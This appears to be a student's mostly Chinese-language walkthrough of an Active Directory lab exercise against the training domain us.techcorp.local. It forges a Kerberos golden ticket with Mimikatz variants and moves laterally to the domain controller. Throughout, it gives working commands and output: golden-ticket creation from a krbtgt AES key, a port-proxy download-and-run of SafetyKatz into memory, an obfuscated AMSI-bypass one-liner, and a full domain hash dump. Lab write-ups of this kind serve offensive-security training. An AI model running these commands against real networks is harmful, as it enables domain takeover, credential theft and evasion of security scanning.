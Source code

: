 Task
•  Using the NTLM hash or AES key of krbtgt account of us.techcorp.local, create a Golden ticket.
•  Use the Golden ticket to (once again) get domain admin privileges from a machine.

# Using the NTLM hash or AES key of krbtgt account of us.techcorp.local, create a Golden ticket.

在hands-on 11我们已经拿到krtgt的哈希，现在可以拿来申请一张金票

## 方法一，使用BetterSafetyKatz.exe申请金票
```
PS C:\Windows\system32> C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:us.techcorp.local /sid:S-1-5-21-210670787-2521448726-163245708 /aes256:5e3d2096abb01469a3b0350962b0c65cedbbc611c5eac6f3ef6fc1ffa58cacd5 /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
[+] Stolen from @harmj0y, @TheRealWover, @cobbr_io and @gentilkiwi, repurposed by @Flangvik and @Mrtn9
[+] Randomizing strings in memory
[+] Suicide burn before CreateThread!

  .#####.   STH8YPVC 2.2.0 (x64) #19041 Sep 18 2020 19:18:29
 .## ^ ##.  "SG5STLYOPBQM1J5QHU4" - (2ZSR9)
 ## / \ ##  /*** H37CADQDEN5XHW `5JJK91LL7P` ( PTU1RF07@5JJK91LL7P.com )
 ## \ / ##       > https://blog.5JJK91LL7P.com/STH8YPVC
 '## v ##'       DZ9AM81SJDVBRP5             ( 1ZV9CVQKU8L7DRDBIE3ERF84 )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

STH8YPVC(commandline) # kerberos::golden /User:Administrator /domain:us.techcorp.local /sid:S-1-5-21-210670787-
2521448726-163245708 /aes256:5e3d2096abb01469a3b0350962b0c65cedbbc611c5eac6f3ef6fc1ffa58cacd5 /startoffset:0 /endin:600 /renewmax:10080 /ptt
User      : Administrator
Domain    : us.techcorp.local
VU54FELKey: 5e3d2096abb01469a3b0350962b0c65cedbbc611c5eac6f3ef6fc1ffa58cacd5 - aes256_hmac
Lifetime  : 11/2/2022 3:03:41 AM ; 11/2/2022 1:03:41 PM ; 11/9/2022 3:03:41 AM
-> Ticket : ** Pass The Ticket **

 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'Administrator @ us.techcorp.local' successfully submitted for current session

STH8YPVC(commandline) # exit
Bye!
```

## 方法二，使用 Invoke-Mimikatz申请金票

引入
```
. C:\AD\Tools\Invoke-Mimikatz.ps1
```

```
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:us.techcorp.local /sid:S-1-5-21-210670787-2521448726-163245708 /aes256:5e3d2096abb01469a3b0350962b0c65cedbbc611c5eac6f3ef6fc1ffa58cacd5 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```


Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /target:dcorp-dc.dollarcorp.moneycorp.local /service:HOST /rc4:126289c16302fb23b71ec09f0d3d5391 /user:Administrator /ptt"'


上面命令执行完会把ticket导入到当前session

查看
```
PS C:\Windows\system32> klist

Current LogonId is 0:0xead79a

Cached Tickets: (1)

#0>     Client: Administrator @ us.techcorp.local
        Server: krbtgt/us.techcorp.local @ us.techcorp.local
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e00000 -> forwardable renewable initial pre_authent
        Start Time: 11/2/2022 3:03:41 (local)
        End Time:   11/2/2022 13:03:41 (local)
        Renew Time: 11/9/2022 3:03:41 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:
```

# Use the Golden ticket to (once again) get domain admin privileges from a machine.

## 方法一,winrs 横向

1. 横向到dc

```
PS C:\Windows\system32> winrs -r:us-dc cmd
Microsoft Windows [Version 10.0.17763.2928]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\Administrator>hostname
hostname
US-DC

C:\Users\Administrator>whoami
whoami
us\administrator

```

2. 传Loader.exe

```
echo F | xcopy C:\AD\Tools\Loader.exe \\us-dc\C$\Users\Public\Loader.exe /Y
```

3. 操纵流量

```
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=192.168.100.138
```

4. load mimikatz,dump哈希

学生机用pyhon开一个web服务

DC上执行
```
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe
```

dump出域中所有用户的哈希
```
mimikatz # lsadump::lsa /patch
Domain : US / S-1-5-21-210670787-2521448726-163245708

RID  : 000001f4 (500)
User : Administrator
LM   :
NTLM : 43b70d2d979805f419e02882997f8f3f

RID  : 000001f5 (501)
User : Guest
LM   :
NTLM :

RID  : 000001f6 (502)
User : krbtgt
LM   :
NTLM : b0975ae49f441adc6b024ad238935af5

....
```

## 方法二,PS 横向

1. 横向到DC

```
Enter-PSSession -ComputerName us-dc
```

2. 在DC关闭AMSI
```
[us-dc]: PS C:\Users\Administrator\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ([TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE (('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(("{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile') ),( "{2}{4}{0}{1}{3}" -f('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```

3. 回来学生机制作一个DC的session

```
$sess = New-PSSession us-dc.us.techcorp.local
```

4. 对上面session 注入mimikatz

```
Invoke-Command -FilePath C:\AD\Tools\Invoke-Mimikatz.ps1 -Session $sess
```

5. 再次进到哈希，用mimikatz dump出哈希

```
PS C:\AD\Tools> Enter-PSSession -Session $sess
[us-dc.us.techcorp.local]: PS C:\Users\Administrator\Documents> Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
```